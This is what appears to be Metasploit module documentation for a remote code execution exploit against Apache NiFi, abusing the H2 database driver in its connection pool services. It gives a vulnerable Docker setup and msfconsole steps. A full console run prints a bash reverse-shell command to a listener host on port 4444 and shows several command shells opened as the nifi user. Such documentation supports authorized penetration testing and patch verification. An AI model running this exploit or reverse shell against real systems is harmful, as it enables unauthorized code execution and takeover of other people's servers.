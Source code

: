 ## Vulnerable Application

The DBCPConnectionPool and HikariCPConnectionPool Controller Services in
Apache NiFi 0.0.2 through 1.21.0 allow an authenticated and authorized user
to configure a Database URL with the H2 driver that enables custom code execution.
This exploit will create a new ExecuteSQL process, connect it to a DB Connection
Pool, and create a new H2 based connection.  The connection is able to create
a new memory based h2 database on the fly, with a code execution inlined that
executes when the H2 connection, and process are started.

This exploit will result in several shells (5-7).
Successfully tested against Apache nifi 1.16.0 through 1.21.0.

### Vulnerable Docker Images

Docker images are available, and exploitable in the default configuration.

```
docker run -p 8443:8443 apache/nifi:1.20.0
```

After the image runs for a minute or two, you'll need to grab a set of credentials
by running grep against the logs:

```
docker logs [container_id] | grep Generated
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_nifi_h2_rce `
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

### DELAY

The delay time before stopping and deleting the processor and DB connection pool. Defaults to `15`

## Scenarios

### Nifi 1.20.0 on Docker

```
msf > use exploit/linux/http/apache_nifi_h2_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/apache_nifi_h2_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/apache_nifi_h2_rce) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(linux/http/apache_nifi_h2_rce) > set username 4b6caac4-e1c6-431d-8e63-f014a6541362
username => 4b6caac4-e1c6-431d-8e63-f014a6541362
msf exploit(linux/http/apache_nifi_h2_rce) > set password E3ke7kCROjBabztg0acFemg5xk2QiQs1
password => E3ke7kCROjBabztg0acFemg5xk2QiQs1
msf exploit(linux/http/apache_nifi_h2_rce) > set verbose true
verbose => true
msf exploit(linux/http/apache_nifi_h2_rce) > exploit

[+] bash -c '0<&126-;exec 126<>/dev/tcp/1.1.1.1/4444;sh <&126 >&126 2>&126'
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Apache NiFi instance supports logins and vulnerable version detected: 1.20.0
[+] Retrieved process group: c34bfd91-0189-1000-a1ab-44dda04d471e
[+] Created processor c34ccd20-0189-1000-5ee2-06eb40644237 in process group c34bfd91-0189-1000-a1ab-44dda04d471e
[+] Configured processor c34ccd20-0189-1000-5ee2-06eb40644237
[+] Configured db connection pool rkkIaE (c34cccc4-0189-1000-22c2-9fa3bb57d87b)
[+] Enabling db connection pool
[+] Starting processor
[*] Command shell session 1 opened (1.1.1.1:4444 -> 172.17.0.2:49468) at 2023-08-04 21:25:44 -0400
[*] Waiting 15 seconds before stopping and deleting
[*] Command shell session 2 opened (1.1.1.1:4444 -> 172.17.0.2:49470) at 2023-08-04 21:25:45 -0400
[*] Command shell session 3 opened (1.1.1.1:4444 -> 172.17.0.2:49478) at 2023-08-04 21:25:46 -0400
[*] Command shell session 4 opened (1.1.1.1:4444 -> 172.17.0.2:49488) at 2023-08-04 21:25:49 -0400
[*] Command shell session 6 opened (1.1.1.1:4444 -> 172.17.0.2:54526) at 2023-08-04 21:25:50 -0400
[*] Command shell session 7 opened (1.1.1.1:4444 -> 172.17.0.2:54534) at 2023-08-04 21:25:51 -0400
[+] Stopped and terminated processor c34ccd20-0189-1000-5ee2-06eb40644237
[*] Found newer revision of c34ccd20-0189-1000-5ee2-06eb40644237, attempting to delete version 4
[+] Deleted processor c34ccd20-0189-1000-5ee2-06eb40644237
[+] Disabled db connection pool c34cccc4-0189-1000-22c2-9fa3bb57d87b, sleeping 15 seconds to allow the connection to finish disabling
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 1
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 2
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 3
[*] Found newer revision of c34cccc4-0189-1000-22c2-9fa3bb57d87b, attempting to delete version 4
[+] Deleted db connection pool c34cccc4-0189-1000-22c2-9fa3bb57d87b

id
uid=1000(nifi) gid=1000(nifi) groups=1000(nifi)
uname -a
Linux 06967477694d 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 x86_64 x86_64 GNU/Linux
```

